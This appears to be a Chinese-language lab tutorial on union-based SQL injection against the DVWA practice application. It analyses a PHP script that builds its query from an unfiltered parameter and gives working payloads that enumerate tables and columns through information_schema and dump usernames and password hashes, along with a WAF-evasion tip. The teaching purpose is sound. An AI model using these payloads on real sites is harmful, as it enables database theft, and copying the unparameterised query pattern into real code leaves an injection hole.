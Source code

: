 ## 0x00 union联合注入攻击原理
联合查询注入是联合两个表进行注入攻击，使用关键字union select 对两个表进行联合查询。要注意两个表的字段数要相同，不然会报错，错误是 different number of columns。  
order by N 或者 union select 1,2,3,4,5,6,7,...,N，通过这种方式可以判断查询结果的字段数。  
如果只想要一行数据，就在sql语句后添加 $limit 1$，即为只显示1行数据。$limit 0,1$ 表示从0开始，查询数据显示1行。

## 0x01 --+的作用
--是标准的SQL注释符，--后面的内容被视为注释，SQL引擎会忽略他们。一般情况下，空格字符可能会被过滤或者触发WAF相关规则，所以使用 $+$ 代替空格，在URL编码中，$+$被视为空格的编码形式，所以用$+$代替空格来达到绕过防护的目的。

## 0x02 union select使用方法
在联合查询两个表时，如果两个表显示列数不一样就会报错。例如，guestbook有3个字段，users也需要有3个字段与之匹配，多或者少都会报错。
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select 1,2,3 from users;
```
可以把1，2，3替换为数据库关键信息函数database()、version()、user()等：
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select database(),user(),version() from users;
```
还可以替换成数据表中的字段：
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select user_id,user,password from users;
```
如果不加  $limit 1$ 会把所有信息显示出来，但是有时候网页前端只有一条数据的回显位置，所以需要限定条件，只显示1行数据。
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select user_id,user,password from users limit 1
```
此时显示的是guestbook这个数据库中的原有的1条数据，并不是我想要的，我想要的是users表中的每一条数据，所以我们可以把comment_id这个限制条件做修改，如果让comment_id=-1的话，查询结果为空，就可以显示后面联合查询的结果了，所以修改payload如下，此时可以显示users表中的第一条数据：
```sql
SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 1
```
想要查看接下来的几条数据可以这样修改：
```sql
SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 1，1

SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 2，1

SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 3，1
```

## 0x03 代码分析
```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```
使用\$_REQUEST直接接收 $id$ 参数，没有进行任何过滤，同时可以接收cookie get post这些传递方法。接下来需要判断是字符型注入还是整型注入，输入单引号 $'$ 会出现报错语句You have an error in your SQL syntax; 可以知道属于字符型注入，在进行注入检测时要注意单引号闭合。

## 0x04 union select联合注入流程
首先，输入 1'and '1'='1 页面返回用户信息 1'and '1'='2 页面返回不一样的信息。基本可以确定存在 SQL 注入漏洞。  
接下来要判断字段数，使用语句 order by 确定当前表的查询结果字段数。order by 1 如果页面返回正常 字段数不少于 1,order by 2 不少于 2，一直如此类推直到页面出错。正确的字段数是出错数字减少 1。  
通过联合查询确定回显位置：-1' union select 1,2--+ 可以看到在网页中显示1，2的位置，便是注入回显位置，我们通过这个回显拿敏感信息。  
注意：把数据替换成 mysql 的函数例如 md5(1) 这会在页面返回 1 的 md5 加密信息。使用这个函数一般是白帽子扫描器匹配存在漏洞的特征码。  
还可以查看以下数据：
- version() mysql 版本；
- database() 当前数据库；
- user() 当前用户名；
- group_concat()分组打印字符串；  
```sql
'-1' union select 1,group_concat(user(),0x3A,database(),0x3A,version())--+
```
其中0x3a是冒号 : 的16进制HEX编码，MySQL可以把0x3a自动识别成冒号，上面payload可以把各种信息用冒号分隔开，便于查看。
```bash
mysql> select group_concat(0x3a);
+--------------------+
| group_concat(0x3a) |
+--------------------+
| :                  |
+--------------------+
1 row in set (0.00 sec)
```
之后得到当前数据库名dvwa。  
接下来可以通过 mysql 自带的 information_schema 查询当前库的表：
```bash
mysql> select first_name,last_name from users where user_id='-1' union select 1,group_concat(table_name) from information_schema.TABLES where table_schema=database();
+------------+-----------------+
| first_name | last_name       |
+------------+-----------------+
| 1          | guestbook,users |
+------------+-----------------+
```
通过上面命令得到当前数据库（dvwa）中有两个表，分别是 guestbook 和 users，猜测users里面会有敏感信息，所以在 information_schema库对应的COLUMNS表中查看users表的字段。
```bash
mysql> select first_name,last_name from users where user_id='-1' union select 1,group_concat(column_name) from information_schema.COLUMNS where table_schema=database() and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | last_name                                                                 |
+------------+---------------------------------------------------------------------------+
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
```
如果只有一个回显位置的话，我们需要利用limit来限制回显数量，具体payload如下：
```sql
#获取 users 表第一个字段名
'-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1))--+

#获取 users 表第二个字段名
'-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 2,1))--+
```
最后步骤，通过以上的黑盒查询获取库名、表名、字段名、那么就可以查询某个表的内容。
```sql
'-1' union select 1,(select group_concat(user,0x3a,password) from users limit 1)--+
```

## 0x05 嵌套查询
在上面SQL语句中，涉及到了嵌套查询，只需要把子查询括起来，放到select参数位置处即可。
```sql
select 1,(select group_concat(user,0x3a,password) from users);
```